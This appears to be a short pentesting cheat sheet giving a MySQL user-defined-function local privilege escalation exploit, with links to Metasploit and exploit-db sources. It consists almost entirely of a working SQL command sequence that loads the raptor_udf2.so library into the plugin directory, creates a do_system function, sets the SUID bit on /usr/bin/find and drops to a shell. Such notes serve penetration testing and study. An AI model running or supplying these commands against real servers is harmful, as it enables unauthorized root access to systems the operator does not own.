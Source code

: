 # mysql

## MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit

Tested: v5.0.77

```bash
# download UDF from msf | https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql
https://github.sofianehamlaoui.fr/Security-Cheatsheets/databases/mysql/mysql-root-to-system-root/
commands: https://gist.github.com/p0c/8587757

[OR]
https://www.exploit-db.com/exploits/1518
use mysql;
CREATE table kashz(line blob);
INSERT INTO kashz VALUES(load_file('/PATH/raptor_udf2.so'));
SELECT * from kashz into dumpfile '/PLUGIN-DIR/raptor_udf2.so';
CREATE function do_system returns integer soname 'raptor_udf2.so';
SELECT * from mysql.func;
SELECT do_system('chmod +s /usr/bin/find');
\! sh 
# terminal commands
```
